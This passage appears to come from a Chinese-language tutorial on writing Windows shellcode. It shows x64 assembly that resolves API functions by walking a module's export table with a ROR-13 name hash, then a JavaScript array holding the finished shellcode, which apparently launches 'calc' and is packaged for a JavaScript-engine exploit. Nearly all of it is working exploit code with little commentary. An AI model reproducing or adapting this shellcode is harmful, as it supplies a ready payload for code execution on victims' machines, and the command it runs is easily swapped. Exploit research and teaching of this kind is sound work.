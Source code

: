 ```asm
    mov     eax, [rbx+0x20]  
    mov     r8, rdi  
    add     r8, rax  
    mov     ecx, [rbx+0x18]       ;ecx = 导出函数数量  
  
; --check_names--  
check_names_loop:  
    dec     ecx  
    mov     eax, [r8 + rcx*4]  
    mov     rsi, rdi  
    add     rsi, rax  
    xor     r9, r9  
    xor     rax, rax  
    cld  
  
; --calc_hash--  
calc_hash_loop:  
    lodsb  
    test    al, al  
    je      calc_hash_finished  
    ror     r9d, 0x0d               ;哈希算法  
    add     r9, rax  
    jmp     calc_hash_loop  
  
; --calc_finished--  
calc_hash_finished:  
    cmp     r9d, edx  
    nop  
    jne     check_names_loop  
  
; --find_addr--  
    mov     r8d, [rbx+0x24]  
    add     r8, rdi  
    mov     ax, [r8 + rcx*2]  
    mov     r8d, [rbx+0x1c]  
    lea     r8, [r8 + rdi]  
    mov     eax, [r8 + rax*4]  
    add     rax, rdi  
  
; --found_func--  
    ret
```


最后的js版本：

```js
var shellcode = [
    0x90909090, 0x90909090,
    0x0001e890, 0x48c30000, 0x0008c4f7, 0x04740000, 0x08ec8348, 0x10ec8348, 0x8afe98ba, 0x0026e80e,
    0x63680000, 0x59636c61, 0xe1894851, 0x48d23148, 0x8348c2ff, 0xd0ff28ec, 0xe2d87eba, 0x0006e873,
    0x31480000, 0xc3d0ffc9, 0x048b4c65, 0x00006025, 0x788b4900, 0x7f8b4818, 0xc9314830, 0x10478b48,
    0x40778b48, 0x663f8b48, 0x75184e39, 0xc78948ef, 0x813c5f8b, 0x000088c3, 0xfb014800, 0x8948038b,
    0xc30148fb, 0x4920438b, 0x0149f889, 0x184b8bc0, 0x8b41c9ff, 0x89488804, 0xc60148fe, 0x48c9314d,
    0xacfcc031, 0x0974c084, 0x0dc9c141, 0xebc10149, 0xd13941f2, 0x44d97590, 0x4924438b, 0x4166f801,
    0x4448048b, 0x4d1c438b, 0x4138048d, 0x4880048b, 0x90c3f801,
  ];
```
